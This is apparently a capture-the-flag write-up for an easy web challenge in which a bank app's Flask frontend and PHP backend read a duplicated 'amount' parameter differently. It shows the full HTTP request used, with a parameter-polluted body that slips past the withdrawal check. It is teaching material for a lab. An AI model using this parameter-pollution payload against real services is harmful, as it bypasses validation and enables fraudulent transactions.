 # Info
Difficulty: Easy
# Desc
> A notorious bank has recently opened its doors, claiming to house the wealth of the entire world. Can you reclaim what is rightfully yours? Here's a wizard's tip: the bank only permits withdrawals of 1337 units of currency at a time. Are you up for the challenge?

# Writeup
This is a parameter pollution challenge, we need to exploit the desync of two web server to bypass the restriction.

This is a bank application, we can register user, and then withdraw remaining balance.
If the user tries to withdraw negative number or number that is more than the remaining amount, frontend server will raise an error.
New users always have 0 balance, and there is no way to add balance.
After reading the code, I knew I needed to withdraw 1337 balance to get the flag.

The server is using Flask as frontend and PHP server as backend.
It checks the withdrawn value with `request.form.get("amount")`, and send raw body data, which is stored by  `request.get_data()`, to PHP backend.

I guessed there might be some kind of desync bugs here, so I tried to intercept the request and modify it to x-www-form-urlencoded format, and then add another "amount" parameter to see if Flask and PHP will get different value.
It turns out the answer is yes, here is the payload:

```
POST /api/withdraw HTTP/1.1
Host: 94.237.55.163:38700
Content-Length: 32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://94.237.55.163:38700
Referer: http://94.237.55.163:38700/home
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QiLCJleHAiOjE3MDgzNDI1MjF9.LBISXhPK-eIV2CFMxcuBQPs4BDcyA4PjKdwALSxnZV8
Connection: close

account=123&amount=0&amount=1337
```
Finally, I got the flag from "/home".